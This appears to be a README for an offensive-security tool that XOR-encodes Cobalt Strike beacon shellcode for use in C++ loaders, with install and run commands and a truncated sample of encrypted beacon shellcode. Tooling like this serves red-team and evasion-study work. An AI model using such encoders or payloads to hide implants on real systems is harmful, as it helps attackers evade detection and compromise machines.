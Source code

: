 # Shellcode Encoder (XOR) for Cobalt Strike RAW Files   

[Shellcode Generation Aggressor Script](https://github.com/RCStep/CSSG)

## What it Does:
XOR's the .RAW or .BIN with a key   
Formats Output for C++  

## Recommondation - Pipe Output Into File (Large Output)      
> sudo apt update   
> sudo apt install python-pip   
> pip2 install -r requirements.txt   
> python2.7 encode-CS-shellcode.py beacon-test.raw 123 > test.txt      


## Output
```
char key[] = "123";
char encryptedShellcode[] = 

    "\x7c\x68\x72\x63\x67\x7b\xb8\xd7\x7b\xb0\xde\x13\x31\x32\x33\x79"
    "\xbf\x2e\xdb\xcd\xcc\xce\x7a\xba\xee\x7a\xb2\xf2\xfe\x53\x30\x32"
    "\xcc\xe2\x73\x8b\xc1\x87\x91\x67\x5a\x37\x31\x32\x33\x6b\x7a\xba"
    "\xc8\xcd\xe3\x31\x32\x33\x31\x32\x33\x31\x32\x33\xc9\x32\x33\x31"
    "\x3c\x2c\x8b\x3c\x33\x85\x3b\xfe\x10\x8a\x32\x7d\xff\x12\x65\x5a"
    "\x5a\x42\x12\x43\x43\x5d\x54\x43\x53\x5e\x11\x51\x52\x5f\x5c\x5c"
    "\x45\x12\x51\x54\x12\x41\x44\x5c\x13\x58\x5c\x13\x75\x7d\x60\x11"

```
...    
```
    "\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33"
    "\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31"
    "\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32"
    "\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33"
    "\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31"
    "\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32"
    "\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33"
    "\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31"
    "\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32"
    "\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33"
    "\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31"
    "\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32\x33\x31\x32";

```
